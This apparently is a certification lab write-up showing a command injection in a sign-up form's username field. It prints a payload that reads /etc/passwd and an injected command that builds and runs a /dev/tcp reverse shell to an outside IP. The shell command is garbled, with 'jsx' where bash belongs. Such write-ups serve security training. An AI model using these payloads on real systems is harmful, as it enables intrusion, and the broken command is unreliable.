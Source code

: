 ```yaml
---
title: Challenge 14:The Unseen Obvious
date: 2024-05-15 05:06:00 +0800
categories: [Write-Up, CWAE]
tags: [Cert, Write-Up]     # TAG names should always be lowercase
description: This is a detailed writeup created for challenges associated with the Certified Web AppSecurity Expert (CWAE) certification. 
---
```


## Challenge/Task

1. Command Injection

**Proof-of-Concept (POC):**

Command injection is a security vulnerability that allows attackers to execute arbitrary commands on a system through vulnerable application inputs. On the sign-up page, there are 4 input field. One of the field vulnerable to the command injection. I send a command at the username field , “;cat /etc/passwd;” to fetch list of users and the server respond to it. 

![POC-otb](/img/cwae/tuo1.png){: w="400" h="400" }{: .normal }
![POC-otb](/img/cwae/tuo2.png){: w="400" h="400" }{: .normal }

We can try to get a reverse shell here by using this command
```jsx
;echo "jsx -i >& /dev/tcp/143.198.205.200/5555 0>&1" >> f.sh;chmod +x f.sh;jsx f.sh
```

This command attempts to append a line to a file named f.sh, which, when executed, will open a reverse shell to the IP address 143.198.205.200 on port 5555. Then, it makes the file executable and runs it using Bash.

Listening to port 5555.

![POC-otb](/img/cwae/tuo3.png){: w="400" h="400" }{: .normal }

We got a reverse shell after clicking the “Sign-Up” button. 

![POC-otb](/img/cwae/tuo4.png){: w="400" h="400" }{: .normal }

To proof it, I run id and whoami command to show the server belongs to the victim. 
![POC-otb](/img/cwae/tuo5.png){: w="400" h="400" }{: .normal }
